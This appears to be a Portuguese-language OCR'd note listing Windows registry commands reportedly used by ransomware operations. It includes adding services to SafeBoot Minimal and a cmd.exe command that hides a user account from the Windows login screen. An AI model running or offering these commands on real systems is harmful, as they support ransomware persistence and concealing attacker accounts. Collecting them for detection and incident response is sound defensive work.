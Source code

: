 **Comandos no registros executados por operações de Ransomwares**

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\SafeBoot\Minimal\mXoRpcSsx /VE /T REG_SZ /F /D Service

REG QUERY HKLM\SYSTEM\CurrentControlSet\Control /v SystemStartOptions

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\SafeBoot\Minimal\VSS /VE /T REG_SZ /F /D Service

HKLM\SOFTWARE\Microsoft\Windows Media Player NSS\3.0\Servers\D8B548F0-E306-4B2B-BD82-25DAC3208786\FriendlyName

HKU\S-1-5-21-4270068108-2931534202-3907561125-1001\Software\Microsoft\Windows\CurrentVersion\Shell Extensions\Cached\{ED50FC29-B964- 48A9-AFB3-15EBB9B97F36} {ADD8BA80-002B-11D0-8F0F-00C04FD7D062} 0xFFFF

reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters /v MaxMpxCt /d 65535 /t REG_DWORD /f


**Ocultar usuário na tela de Login do Windows** 

cmd.exe /Q /c reg add
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList
/t REG_DWORD /v [USER] /d 0 /f 1> \\127.0.0.1\ADMIN$\__[TIMESTAMP] 2>&1
